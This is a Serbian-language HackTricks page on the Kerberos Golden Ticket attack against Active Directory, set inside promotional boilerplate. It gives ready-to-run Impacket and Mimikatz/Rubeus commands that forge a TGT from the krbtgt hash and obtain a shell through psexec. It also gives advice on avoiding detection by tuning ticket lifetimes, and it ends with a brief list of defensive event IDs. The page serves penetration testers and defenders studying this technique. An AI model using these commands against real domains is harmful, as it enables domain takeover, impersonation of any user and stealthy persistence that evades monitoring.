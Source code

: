 # Golden Ticket

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Zlatna karta

Napad **Zlatna karta** se sastoji od **kreiranja legitimnog Ticket Granting Ticket (TGT) koji se predstavlja kao bilo koji korisnik** kroz upotrebu **NTLM heša Active Directory (AD) krbtgt naloga**. Ova tehnika je posebno korisna jer omogućava **pristup bilo kojoj usluzi ili mašini** unutar domena kao predstavljeni korisnik. Važno je zapamtiti da **kredencijale krbtgt naloga nikada automatski ne ažuriraju**.

Da biste **dobili NTLM heš** krbtgt naloga, mogu se koristiti različite metode. Može se izvući iz **Local Security Authority Subsystem Service (LSASS) procesa** ili iz **NT Directory Services (NTDS.dit) fajla** koji se nalazi na bilo kom Domain Controller (DC) unutar domena. Takođe, **izvršavanje DCsync napada** je još jedna strategija za dobijanje ovog NTLM heša, što se može uraditi pomoću alata kao što su **lsadump::dcsync modul** u Mimikatz-u ili **secretsdump.py skripta** od Impacket-a. Važno je naglasiti da za izvođenje ovih operacija obično je potrebno **imati privilegije domenskog administratora ili sličan nivo pristupa**.

Iako NTLM heš služi kao prihvatljiva metoda u tu svrhu, **snažno se preporučuje** da se **lažiraju tiketi koristeći Advanced Encryption Standard (AES) Kerberos ključeve (AES128 i AES256)** iz razloga operativne sigurnosti.

{% code title="Sa Linux-a" %}
```
```
{% endcode %}

```bash
python ticketer.py -nthash 25b2076cda3bfd6209161a6c78a69c1c -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain jurassic.park stegosaurus
export KRB5CCNAME=/root/impacket-examples/stegosaurus.ccache
python psexec.py jurassic.park/stegosaurus@lab-wdc02.jurassic.park -k -no-pass
```

{% code title="Sa Windowsa" %}
```bash
#mimikatz
kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt
.\Rubeus.exe ptt /ticket:ticket.kirbi
klist #List tickets in memory

# Example using aes key
kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /aes256:430b2fdb13cc820d73ecf123dddd4c9d76425d4c2156b89ac551efb9d591a439 /ticket:golden.kirbi
```
{% endcode %}

**Jednom** kada imate **ubrizgan golden ticket**, možete pristupiti zajedničkim datotekama **(C$)** i izvršavati usluge i WMI, tako da možete koristiti **psexec** ili **wmiexec** da biste dobili shell (izgleda da ne možete dobiti shell putem winrm).

### Bypassiranje uobičajenih detekcija

Najčešći načini za otkrivanje golden ticketa su **inspekcija Kerberos saobraćaja** na mreži. Podrazumevano, Mimikatz **potpisuje TGT na 10 godina**, što će se istaknuti kao anomalija u kasnijim TGS zahtevima koji se s njim prave.

`Lifetime : 3/11/2021 12:39:57 PM ; 3/9/2031 12:39:57 PM ; 3/9/2031 12:39:57 PM`

Koristite parametre `/startoffset`, `/endin` i `/renewmax` da biste kontrolisali početni offset, trajanje i maksimalne obnove (sve u minutama).

```
Get-DomainPolicy | select -expand KerberosPolicy
```

Nažalost, vreme trajanja TGT-a nije zabeleženo u 4769, pa ove informacije nećete pronaći u Windows evidencijama događaja. Međutim, ono što možete povezati je **videti 4769 bez prethodnog 4768**. **Nije moguće zahtevati TGS bez TGT-a**, i ako nema zapisa o izdatom TGT-u, možemo zaključiti da je on lažiran offline.

Da biste **zaobišli ovu detekciju**, proverite dijamantske tikete:

{% content-ref url="diamond-ticket.md" %}
[diamond-ticket.md](diamond-ticket.md)
{% endcontent-ref %}

### Otklanjanje

* 4624: Prijavljivanje na nalog
* 4672: Prijavljivanje administratora
* `Get-WinEvent -FilterHashtable @{Logname='Security';ID=4672} -MaxEvents 1 | Format-List –Property`

Još neki trikovi koje branioci mogu primeniti su **upozorenje na 4769 za osetljive korisnike**, kao što je podrazumevani administratorski nalog domena.

## Reference

* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
* \[https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets] (https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **oglašavanje vaše kompanije u HackTricks-u** ili **preuzmete HackTricks u PDF formatu**, proverite [**PLANOVE ZA PRETPLATU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
